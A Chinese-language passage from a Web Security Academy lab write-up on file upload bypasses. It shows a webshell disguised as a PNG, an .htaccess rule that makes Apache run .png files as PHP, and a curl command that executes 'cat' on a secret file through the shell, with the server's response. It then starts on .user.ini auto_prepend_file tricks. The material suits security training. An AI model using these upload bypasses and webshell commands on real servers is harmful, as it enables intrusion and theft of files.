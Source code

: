 上传一个 shell.png 图片到远程服务器，文件内容为 webshell，然后再上传一个 .htaccess 文件到远程服务器，使服务器将 png 文件解释成 php 的 MIME，此时服务器会将 xxx.png 文件当成 php 文件进行解释和执行。.htaccess 文件内容如下：

```
<FilesMatch "\.png$">
    SetHandler application/x-httpd-php
</FilesMatch>
```



通过 shell.png 执行命令读取文件内容。

```
curl -i https://0a6e00aa04aa7a8284b8332900f500ff.web-security-academy.net/files/avatars/shell.png?command=cat%20/home/carlos/secret
```

```
HTTP/1.1 200 OK
Date: Sun, 09 Mar 2025 05:06:36 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Set-Cookie: session=eMyDKgF4vMn9AwEzMXoIMphkiMeIz5b1; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 32

QmfbbZMAin5CxNrATz4NNhNYPfTXYu2E
```



#### .user.ini

PHP 支持基于每个目录的 INI 文件配置。此类文件 仅被 CGI／FastCGI SAPI 处理。此功能使得 PECL 的 htscanner 扩展作废。

除了主 php.ini 之外，PHP 还会在每个目录下扫描 INI 文件，从被执行的 PHP 文件所在目录开始一直上升到 web 根目录（$_SERVER['DOCUMENT_ROOT'] 所指定的）。如果被执行的 PHP 文件在 web 根目录之外，则只扫描该目录。



两个 INI 指令， user_ini.filename 和 user_ini.cache_ttl 控制着用户 INI 文件的使用。

user_ini.filename 指定用户配置文件的名字。默认文件名是`.user.ini`。如果为空，将不使用用户配置文件。

user_ini.cache_ttl 指定重新加载用户配置文件的时间间隔，以秒为单位。（默认300秒）PHP读取了`.user.ini`文件，它将在接下来的5分钟内缓存这些设置，而不是每次都重新读取文件。



**.user.ini**

auto_prepend_file 表示加载第一个PHP代码之前执行指示（包含的）PHP文件

auto_append_file 表示加载第一个PHP代码之后执行指示（包含的）PHP文件

```
auto_prepend_file=<filename>         //包含在文件头
auto_append_file=<filename>          //包含在文件尾
```

